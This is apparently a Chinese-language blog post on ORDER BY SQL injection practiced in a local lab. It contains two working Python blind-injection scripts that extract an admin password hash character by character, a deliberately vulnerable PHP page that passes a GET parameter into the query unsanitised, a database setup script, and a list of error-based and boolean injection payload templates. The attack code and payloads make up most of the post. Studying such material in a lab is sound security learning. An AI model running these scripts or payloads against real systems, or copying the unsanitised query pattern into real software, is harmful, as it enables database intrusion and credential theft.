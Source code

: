 ```yaml
---
title: order by injection
author: tank96a
layout: post
categories:
  - article
tags:
  - sqli
  - python
---
```


 本地搭建测试系统进行注入实践，包含php网页脚本、mysql数据库脚本、python爆破脚本。
 
{% raw %}
<pre>
order by 字段1,字段2 DESC  字段1是排序第一关键字，默认为升序;字段2是排序第二关键字,这里指定为降序
order by apples,IF(1,bananas,cherries) desc
order by apples,(case when 1 then bananas else cherries end) desc

ASCII(SUBSTRING((SELECT password FROM fruits WHERE username = 0x41646d696e),1,1))=0x30
</pre>
{% endraw %}

python爆破脚本，用到了requests模块，必须在linux下运行。
{% highlight python %}
#版本1
import requests,string
charset = 'abcdef'+string.digits 
AdminHash=''
url = 'http://192.168.1.101/DebugPHP/3.php'  
for i in range(1,33):
    for c in  charset:  
        payload="?by=3,(CASE WHEN (SELECT SUBSTRING(password,%d,1) FROM fruits where username=0x41646d696e)='%c' +\
                 THEN username ELSE password END) --" %(i, c)
        res = requests.get(url+payload)
        if "21</td><td>System" in res.text:
            AdminHash+=c
            break
print AdminHash  #e10adc3949ba59abbe56e057f20f894e

#版本2
import requests,string
charset = 'abcdef'+string.digits 
AdminHash=''
url = 'http://192.168.1.101/DebugPHP/3.php'  
for i in range(1,33):
    for c in  charset:                 
        payload="?by=IF(SUBSTR((SELECT password from fruits WHERE username  +\
                =CHAR(65,100,109,105,110)),%d,1)=char(%d),username,password) LIMIT 2--" %(i,ord(c))             
        res = requests.get(url+payload)
        if "2</td><td>Admin" in res.text:
            AdminHash+=c
            break
print AdminHash
{% endhighlight %}

php本地注入测试脚本
{% highlight php %}
<?php
function mysql_fetch_all($result)
{
	$rows=array();
	while($row=mysql_fetch_array($result)){
		array_push($rows,$row);
	}
	return $rows;
}
$host = '192.168.1.103';
$dbuser ='root';
$dbpass ='';
$dbname ="security";
$tbname = "fruits";

$con = mysql_connect($host,$dbuser,$dbpass);
if (!$con) echo "Failed to connect to MySQL: " . mysql_error();
mysql_select_db($dbname,$con) or die ( "Unable to connect to the table: $dbname".mysql_error());

$orderby=$_GET['by'];
$sql="SELECT * FROM fruits ORDER BY $orderby LIMIT 10";
$result = mysql_query($sql);
$rows=mysql_fetch_all($result);
 
echo '<table>'.PHP_EOL;
$i = 1;
foreach ($rows as $row)     
{
	//print_r($row);
	echo sprintf('<tr>');
	echo sprintf('<td align="left">%d</td>', $i++);
	echo sprintf('<td>%s</td>', $row['username']);
	echo sprintf('<td>%s</td>', $row['apples']);
	echo sprintf('<td>%s</td>', $row['bananas']);
	echo sprintf('<td>%s</td></tr>', $row['cherries']);
}
echo '</table>'.PHP_EOL;
mysql_close($con);
?>
{% endhighlight %}

mysql数据库脚本
{% raw %}
<pre>
mysql> show databases;
mysql> source /root/Desktop/junk2/test.sql 导入数据
mysql> show tables;
mysql> desc fruits;
+----------+------------------+------+-----+---------+-------+
| Field    | Type             | Null | Key | Default | Extra |
+----------+------------------+------+-----+---------+-------+
| username | varchar(32)      | NO   | PRI |         |       |
| password | char(32)         | YES  |     | NULL    |       |
| apples   | int(10) unsigned | YES  |     | 0       |       |
| bananas  | int(10) unsigned | YES  |     | 0       |       |
| cherries | int(10) unsigned | YES  |     | 0       |       |
+----------+------------------+------+-----+---------+-------+

/*test.sql script*/
use security;
CREATE TABLE IF NOT EXISTS fruits(
username VARCHAR(32) CHARACTER SET ascii COLLATE ascii_general_ci,
password CHAR(32) CHARACTER SET ascii COLLATE ascii_bin,
apples   INT(10) UNSIGNED DEFAULT 0,
bananas  INT(10) UNSIGNED DEFAULT 0,
cherries INT(10) UNSIGNED DEFAULT 0,PRIMARY KEY(username)
);
insert into fruits values ('Horst1','e10adc3949ba59abbe56e057f20f883e',1,1,1);
insert into fruits values ('Harald1','e10adc3949ba59abbe56e057f20f884e',1,1,1);
insert into fruits values ('Horst','e10adc3949ba59abbe56e057f20f885e',1,5,3);
insert into fruits values ('Peter1','e10adc3949ba59abbe56e057f20f886e',1,1,1);
insert into fruits values ('Harald2','e10adc3949ba59abbe56e057f20f887e',2,2,2);
insert into fruits values ('Horst2','e10adc3949ba59abbe56e057f20f888e',2,2,2);
insert into fruits values ('Peter2','e10adc3949ba59abbe56e057f20f889e',2,2,2);
insert into fruits values ('Peter','e10adc3949ba59abbe56e057f20f890e',2,3,5);
insert into fruits values ('Aaron','e10adc3949ba59abbe56e057f20f891e',2,3,4);
insert into fruits values ('Peter3','e10adc3949ba59abbe56e057f20f892e',3,3,3);
insert into fruits values ('Harald3','e10adc3949ba59abbe56e057f20f893e',3,3,3);
insert into fruits values ('Admin','e10adc3949ba59abbe56e057f20f894e',3,2,4);
insert into fruits values ('Horst3','e10adc3949ba59abbe56e057f20f895e',3,3,3);
insert into fruits values ('Horst4','e10adc3949ba59abbe56e057f20f896e',4,4,4);
insert into fruits values ('Harald4','e10adc3949ba59abbe56e057f20f897e',4,4,4);
insert into fruits values ('Peter4','e10adc3949ba59abbe56e057f20f898e',4,4,4);
insert into fruits values ('Harald','e10adc3949ba59abbe56e057f20f899e',4,4,1);
insert into fruits values ('System','e10adc3949ba59abbe56e057f20f900e',5,1,2);
insert into fruits values ('Horst5','e10adc3949ba59abbe56e057f20f901e',5,5,5);
insert into fruits values ('Peter5','e10adc3949ba59abbe56e057f20f902e',5,5,5);
insert into fruits values ('Harald5','e10adc3949ba59abbe56e057f20f903e',5,5,5);
</pre>
{% endraw %}


其他注入知识点：
{% raw %}
<pre>
mysql> select flag from flag where flag='' and (select 1 FROM(select count(*),concat((select (select concat(database())) FROM information_schema.tables LIMIT 0,1),floor(rand(0)*2))x FROM information_schema.tables GROUP BY x)a) and '';
ERROR 1062 (23000): Duplicate entry 'security1' for key 'group_key'

update users set password='',password=(select email_id from emails limit 0,1) where username='admin4';

''=(payload)=''
' or (payload) or '
' and (payload) and '
' or (payload) and '
' or (payload) and '='
'*  (payload)  *'
' or (payload) and '
" – (payload) – "

mysql常用命令：
select hex('Admin');  /*41646D696E*/
select concat(0x41646d696e);  /*Admin*/

Create database newdb;
use newdb;
CREATE TABLE users(id int(3) NOT NULL AUTO_INCREMENT,username varchar(20) NOT NULL,password varchar(20) NOT NULL,PRIMARY KEY (id));
desc users;  查看表的结构
insert into users (id, username, password) values (1, 'Jane', 'Eyre'); 插入数据
</pre>
{% endraw %}

经典文章：

[Injection in Insert, Update and Delete Statements](https://osandamalith.wordpress.com/2014/04/26/injection-in-insert-update-and-delete-statements)

[kali下注入学习网站](http://localhost/sqli-labs/Less-1/?id=1)
